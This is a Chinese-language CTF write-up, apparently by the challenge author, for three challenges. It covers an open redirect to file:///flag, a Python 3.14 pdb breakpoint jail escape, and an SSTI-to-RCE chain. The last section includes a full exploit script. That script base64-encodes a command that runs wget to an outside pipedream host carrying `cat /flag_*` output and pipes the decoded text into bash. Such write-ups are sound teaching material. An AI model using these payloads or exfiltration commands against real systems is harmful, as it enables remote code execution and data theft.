 # cggc

## Preview Site 🔍

solve: 56/64


可以透過 `/logout` endpoint 來 open redirect
```
@app.route('/logout')
def logout():
    session.pop('username', None)
    next_url = request.args.get('next', url_for('index'))
    return redirect(next_url)
```

透過 open redirect to `file://` 讓系統 preview flag

payload: 
```
http://previewsite/logout?next=file:///flag
```

## Breakjail ⛓️

solve: 20/64

TL;DR;

1. 從給的 Dockerfile 發現這題是跑在 `Python 3.14.0a1` 最新版上
2. 發現最新版的 breakpoint 可以透過 commands arguments 來做到不進 interact 模式來下命令
3. 可以透過 j 來 jump 到 flag 被賦值的地方

首先題目會去讀 flag，存到一個變數後，將其覆蓋掉，之後拿使用者輸入看裡面確認裡面沒有包含 `.` `_` 以及長度沒超過 55 後，就拿去給了一個有自己 patch 過的 breakpoint 的環境下運行， `__builtins__` 是空的。

```python
#!/usr/local/bin/python3
print(open(__file__).read())

flag = open('flag').read()
flag = "Got eaten by the cookie monster QQ"

inp = __import__("unicodedata").normalize("NFKC", input(">>> "))

if any([x in "._." for x in inp]) or inp.__len__() > 55:
    print('bad hacker')
else:
    eval(inp, {"__builtins__": {}}, {
         'breakpoint': __import__('GoodPdb').good_breakpoint})

print(flag)
```

那我 breakpoint patch 的有兩處，目的就是讓 breakpoint 不會進互動模式來繞掉黑名單。


發現在 3.14.0a1 的版本有加上 commands 的 feature [#120255](https://github.com/python/cpython/pull/120255)

[cpython/Lib/pdb.py](https://github.com/python/cpython/blob/ed24702bd0f9925908ce48584c31dfad732208b2/Lib/pdb.py#L362)
```python
def set_trace(self, frame=None, *, commands=None):
    Pdb._last_pdb_instance = self
    if frame is None:
        frame = sys._getframe().f_back

    if commands is not None:
        self.rcLines.extend(commands)

    super().set_trace(frame)
```

```
breakpoint(commands=['n','n','j 1','j 4','c'])
```

之後去 [官方文件](https://docs.python.org/3/library/pdb.html#debugger-commands) 上面找有沒有可用的 debugger commands，可以用 `j` 來 jump 到 flag 被賦值的地方：

```
payload = "breakpoint(commands=['n','n','j 4','n','j 15','c'])"
print(payload)
```

:::info
有看到許多非預期解，大致都是透過 `p *open(flag)` 去讀檔拿 flag
:::


## Breakjail Online 🛜 

solve: 13/64

TL;DR;
1. 重用上一題的 commands arguments
2. 發現可以透過 request.query_string 來偷渡一些 payload 進去
3. 在 pdb 環境下 RCE


關鍵程式碼如下，使用者可以控制 q，並且跟前一題類似，有 `.` `_` `|` 的黑名單，以及字數 88 的上限，之後頭尾加上 `{{` `}}` 後，就會拿去 render_template_string

將 request 的一系列參數都清空的，但觀察一下會發現 `query_string` 仍然是我們可以控制的部分
```python
@app.route('/SsTiMe', methods=['GET'])
def showip():
    # WOW! There has a SSTI in Flask!!!
    q = request.args.get('q', "'7'*7")

    # prevent smuggling bad payloads!
    request.args = {}
    request.headers = {}
    request.cookies = {}
    request.data = {}
    request.query_string = b"#"+request.query_string

    if any([x in "._.|||" for x in q]) or len(q) > 88:
        return "Too long for me :/ my payload less than 73 chars"

    res = render_template_string(f"{{{{{q}}}}}",
                                 # TODO: just for debugging, remove this in production
                                 breakpoint=breakpoint,
                                 str=str
                                 )

    # oops, I just type 'res' not res qq
    return 'res=7777777'

```

這題的預期解是:

```
 http://localhost:10003/SsTiMe?''.__class__.__base__.__subclasses__().__getitem__(123).load_module('os').system('echo'+chr(32)+'d2dldCBodHRwczovL2VveTgzd2ZtN2g2Ym9kYi5tLnBpcGVkcmVhbS5uZXQ/YT1gY2F0IC9mbGFnXypg'+chr(124)+'base64'+chr(32)+'-d'+chr(124)+'bash')&q=breakpoint(commands=%5Bstr(request%5B'query%5Cx5fstring'%5D)%5B3:229%5D%5D) 
```

分爲兩個部分

- 構造 RCE payload，這部分與 q 的長度無關，因此可以盡量塞
    - `?''.__class__.__base__.__subclasses__().__getitem__(123).load_module('os').system('echo'+chr(32)+'d2dldCBodHRwczovL2VveTgzd2ZtN2g2Ym9kYi5tLnBpcGVkcmVhbS5uZXQ/YT1gY2F0IC9mbGFnXypg'+chr(124)+'base64'+chr(32)+'-d'+chr(124)+'bash')` 
- q 的部分則是把 `request.query_string` 拿去 breakpoint commands 下運行，但不能用 `.`，所以用 `request['query_string']`代替，最後透過 str slice 把 RCE payload 的部分切出來
    - `&q=breakpoint(commands=[str(request['query\x5fstring'])[3:229]])`


完整 payload:

```python
import urllib.parse
import requests
import base64

target = "http://10.99.66.7:10003"

cmd = b'wget https://xxx.m.pipedream.net?a=`cat /flag_*`'
cmd = base64.b64encode(cmd).decode()

rce_exploit = f"''.__class__.__base__.__subclasses__().__getitem__(123).load_module('os').system('echo'+chr(32)+'{cmd}'+chr(124)+'base64'+chr(32)+'-d'+chr(124)+'bash')"

rce_exploit_len = len(rce_exploit)
print(rce_exploit_len)

payload = f"breakpoint(commands=[str(request['query\\x5fstring'])[3:229]])"

payload = f"{target}/SsTiMe?{rce_exploit}&q={payload}" 

r = requests.get(payload)

payload_len = len(payload)

print(f"{payload_len=}")
print(f"{payload=}")
print(r.url)
print(r.text)
```


這題由於沒注意到 breakpoint commands 的環境 `__builtins__` 跟 `__import__` 都活得好好的，因此存在直接 import os 來 RCE，搭配把 payload 慢慢存到本地來壓 payload 長度的非預期解。


看到 @nella17 提到可以透過 format string 將 bytes 轉 str:
`a=b'c'; f'{c}'`

在 Discord 看到 @dalun 直接用 `request[a:b]` 來進一步縮減 payload 長度：
`breakpoint(commands=[f'{{request}}'[40:-54]])`